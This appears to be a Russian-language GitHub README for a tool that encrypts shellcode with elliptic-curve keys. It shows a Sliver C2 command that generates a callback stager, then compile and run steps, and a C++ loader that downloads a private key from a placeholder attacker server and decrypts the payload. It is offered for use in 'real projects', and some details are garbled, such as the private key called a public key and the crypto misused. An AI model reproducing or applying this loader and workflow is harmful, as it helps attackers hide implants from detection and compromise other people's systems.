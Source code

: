 ## Этот код поможет вам зашифровать свой shellcode с использованием метода эллиптических кривых.

**Requirements**
g++

if not install

```bash
sudo apt install g++
```

openssl v3.1

sliver(or other c2)

libssl-dev 

if not install

```bash
sudo apt install libssl-dev
```

**Подготовка**
Сгенерируйте shellcode в формате **.bin.** Для этого вы можете использовать Bishop Fox Sliver в качестве C2, чтобы создать shellcode:

```bash
sliver> generate stager --lhost ip --lport 8443 --arch amd64 --format shellcode
```

При необходимости вы также можете использовать дополнительные параметры.

Сгенерируйте **.pem** ключи с помощью OpenSSL(prime256v1):

```bash
openssl ecparam -genkey -name prime256v1 -out new-ecc-private.pem
```
```bash
openssl ec -in new-ecc-private.pem -pubout -out new-ecc-public.pem
```

Клонируйте репозиторий с кодом для шифрования:


```bash
git clone github.com/wearetyomsmnv/ec_encoder_cpp
```

## Компиляция кода ##

Скомпилируйте код с помощью g++:

```bash
g++ ec_encoder.cpp -o encrypt_shellcode -lcrypto
```

## Запуск шифрования ##

**Запустите программу для шифрования:**

```bash
./encrypt_shellcode shellcode.bin new-ecc-private.pem new-ecc-public.pem
```

Где:

**shellcode.bin** - это файл с shellcode, полученный из Sliver (имя может отличаться).

**new-ecc-private.pem** - это открытый ключ.

**new-ecc-public.pem** - это открытый ключ.

## Как использовать это в реальном проекте ##

```c++
#include <iostream>
#include <fstream>
#include <vector>
#include <openssl/ec.h>
#include <openssl/pem.h>
#include <openssl/err.h>
#include <openssl/aes.h>
#include <curl/curl.h>

size_t writeData(void* ptr, size_t size, size_t nmemb, FILE* stream) {
    size_t written = fwrite(ptr, size, nmemb, stream);
    return written;
}

bool downloadFile(const char* url, const char* outputPath) {
    CURL* curl;
    FILE* fp;
    CURLcode res;

    curl = curl_easy_init();
    if (curl) {
        fp = fopen(outputPath, "wb");
        curl_easy_setopt(curl, CURLOPT_URL, url);
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, writeData);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, fp);
        res = curl_easy_perform(curl);
        curl_easy_cleanup(curl);
        fclose(fp);

        if (res != CURLE_OK) {
            std::cerr << "curl_easy_perform() failed: " << curl_easy_strerror(res) << std::endl;
            return false;
        }
        return true;
    }
    return false;
}

bool decryptShellcode(const std::vector<unsigned char>& encryptedShellcode, const char* privateKeyPath, std::vector<unsigned char>& decryptedShellcode) {
    BIO* bio = BIO_new_file(privateKeyPath, "r");
    if (!bio) {
        std::cerr << "Error opening private key file." << std::endl;
        return false;
    }

    EC_KEY* ecKey = PEM_read_bio_ECPrivateKey(bio, NULL, NULL, NULL);
    if (!ecKey) {
        std::cerr << "Error reading private key." << std::endl;
        BIO_free(bio);
        return false;
    }

    unsigned char secret[128];
    int secretLen = ECDH_compute_key(secret, 128, EC_KEY_get0_public_key(ecKey), ecKey, NULL);

    // Используйте общий секрет для дешифрования шеллкода с помощью AES-128
    AES_KEY decryptKey;
    AES_set_decrypt_key(secret, 128, &decryptKey);
    AES_decrypt(&encryptedShellcode[0], &decryptedShellcode[0], &decryptKey);

    EC_KEY_free(ecKey);
    BIO_free(bio);
    return true;
}

int main() {
    const char* privateKeyPath = "private_key.pem";
    const char* privateKeyURL = "http://your_vds_ip/path_to_private_key.pem";

    if (!downloadFile(privateKeyURL, privateKeyPath)) {
        std::cerr << "Error downloading private key." << std::endl;
        return 1;
    }

    std::vector<unsigned char> encryptedShellcode; // Загрузите зашифрованный шеллкод
    // ...

    std::vector<unsigned char> decryptedShellcode(encryptedShellcode.size());
    if (decryptShellcode(encryptedShellcode, privateKeyPath, decryptedShellcode)) {
        std::cout << "Shellcode decrypted successfully!" << std::endl;
    } else {
        std::cerr << "Error decrypting shellcode." << std::endl;
    }

    return 0;
}



```
